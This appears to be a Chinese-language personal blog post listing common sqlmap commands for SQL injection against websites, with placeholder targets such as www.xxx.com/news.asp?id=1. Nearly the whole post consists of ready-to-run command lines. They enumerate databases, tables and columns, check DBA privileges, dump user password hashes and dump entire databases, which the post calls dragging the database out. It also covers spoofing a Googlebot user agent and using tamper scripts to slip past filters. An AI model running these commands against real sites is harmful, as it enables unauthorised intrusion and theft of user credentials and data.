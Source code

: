 ```yaml
---
layout:     post
title:      "sqlmap的常用命令"
subtitle:   ""
date:       2019-08-04-20:00:00
author:     ""
header-img: "img/ES.jpg"
tags:
    - 工具
    - 信息安全
---
```


#### sqlmap使用

<br>sqlmap.py -u url --dbs //爆数据库
<br>sqlmap.py -u url --current-db //爆当前库
<br>sqlmap.py -u url --current-user //爆当前用户
<br>sqlmap.py -u url --users   查看用户权限
<br>sqlmap.py -u url --tables -D 数据库 //爆表段
<br>sqlmap.py -u url --columns -T 表段 -D 数据库 //爆字段
<br>sqlmap.py -u url --dump -C 字段 -T 表段 -D 数据库 //猜解
<br>sqlmap.py -u url --dump --start=1 --stop=3 -C 字段 -T 表段 -D 数据库 //猜解1到3的字段
<br>
<br>翻回来也可以
<br>
<br>sqlmap.py -u url  判断
<br>sqlmap.py -u url --is-dba -v   这是判断当前数据库的使用者是否是dba
<br>sqlmap.py -u url --users -v 0  这句的目的是列举数据库的用户
<br>sqlmap.py -u url --passwords -v 0 这句的目的是获取数据库用户的密码
<br>sqlmap.py -u url --privileges -v 0 这是判断当前的权限
<br>sqlmap.py -u url --dbs -v 0 这句的目的是将所有的数据库列出来
<br>sqlmap.py -u url --tables -D '表' 爆表
<br>sqlmap.py -u url --columns -T ‘表’-D ‘数据库’爆列
<br>sqlmap.py -u url --dump -T '表' --start 1 --stop 4 -v 0 这里是查询第2到第4行的内
<br>sqlmap.py -u url --dump -all -v 0
<br>
<br>
<br>这儿我们将所有的库导出来，我想这就是前段时间盛传的脱裤吧，在执行这项操作的时候，会把所有的表里的内容导入到当前的一个目录下，看着清楚明了，但是花费的时间和很长。
<br>sqlmap -u "http://www.xxxxxx.com/newsphp?class=news&id=5&page=1&catalog_id=2" --users --password 爆用户密码
<br>
#### sqlmap 常用命令
<br>    1../sqlmap.py -u "www.xxx.com/news.asp?id=1"        //检查注入点
<br>    2.sqlmap -u "www.xxx.com/news.asp?id=1" --current-user    //获取当前用户名
<br>    3.sqlmap -u "www.xxx.com/news.asp?id=1" --current-db    //获取数据库名，得到库admin
<br>    4.sqlmap -u "www.xxx.com/news.asp?id=1" --privileges    //权限判断
<br>    5.sqlmap -u "www.xxx.com/news.asp?id=1" --users        //枚举管理系统用户
<br>    6.sqlmap -u "www.xxx.com/news.asp?id=1" --passwords        //枚举管理系统用户哈希
<br>    7.sqlmap -u "www.xxx.com/news.asp?id=1" --tables -D "admin"    //查admin库中的表名，得到user表
<br>    8.sqlmap -u "www.xxx.com/news.asp?id=1" --columns -T "user" -D "admin" -v 5    //查字段，v后数字越大越详细，得到id,username,password
<br>    9.sqlmap -u "www.xxx.com/news.asp?id=1" --dump -C "id,username,password" -T "user" -D "admin" -v 5    //拖库，或者使用--dump-all
<br>
<br>    10.--dbms "Mysql"    //指定数据库类型
<br>    11.--dbs        //列数据库
<br>    12.--passwords -U root    //指定列数据库用户root的密码
<br>    13.--level 5    //执行测试的等级
<br>    14.--user-agent "Googlebot/2.1"
<br>    15.--tamper "space2morehash.py"
<br><br><b>该文为我工具列表下的说明文档，如果侵权，请及时联系我</b>